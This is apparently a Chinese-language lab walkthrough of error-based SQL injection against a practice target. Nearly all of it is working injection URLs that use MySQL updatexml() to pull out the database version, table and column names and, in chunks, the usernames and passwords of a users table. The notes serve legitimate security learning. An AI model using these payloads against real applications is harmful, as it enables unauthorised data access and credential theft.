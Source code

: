 ```
updatexml(XML_document,XPath_string,new_value);
```

> XML_document:String 格式，为 XML 文档对象的名称，文中为 Doc
>
> XPath_string:Xpath 格式的字符串，代表路径。
>
> new_value:String 格式，替换查找到的符合条件的数据。
>

#### less-5报错注入Updatexml

##### 版本

```mysql
http://192.168.70.14:8088/Less-5/?id=1' and updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '1'='1
```

![image-20240806150435261](../../../../repo/assets/19.SQL注入/image-20240806150435261.png)

##### 数据库名

```mysql
http://192.168.70.14:8088/Less-5/?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1)--+
http://192.168.70.14:8088/Less-5/?id=0' union select updatexml(1,concat(0x7e,database(),0x7e),1),2,3 --+
```

![image-20240806150858927](../../../../repo/assets/19.SQL注入/image-20240806150858927.png)

#####  表名

```mysql
http://192.168.70.14:8088/Less-5/?id=1' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+
```

![image-20240806150929243](../../../../repo/assets/19.SQL注入/image-20240806150929243.png)

##### 字段名

```mysql
http://192.168.70.14:8088/Less-5/?id=1' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1)--+
```

![image-20240806151008260](../../../../repo/assets/19.SQL注入/image-20240806151008260.png)

#####  字段值

 group_concat()函数可能放不下所有内容，可以采用截取或者limit函数读取  

可以看出，爆出的字段名称长度超出了`32`，所以需要使用`substring（）`函数每隔`32`位截取一次，最终拼凑出全部内容。

```mysql
http://192.168.70.14:8088/Less-5/?id=1' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),1,31),0x7e),1)--+
http://192.168.70.14:8088/Less-5/?id=1' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),32,31),0x7e),1)--+
http://192.168.70.14:8088/Less-5/?id=1' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),63,31),0x7e),1)--+
http://192.168.70.14:8088/Less-5/?id=1' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),94,31),0x7e),1)--+
http://192.168.70.14:8088/Less-5/?id=1' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),125,31),0x7e),1)--+
http://192.168.70.14:8088/Less-5/?id=1' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),156,31),0x7e),1)--+
```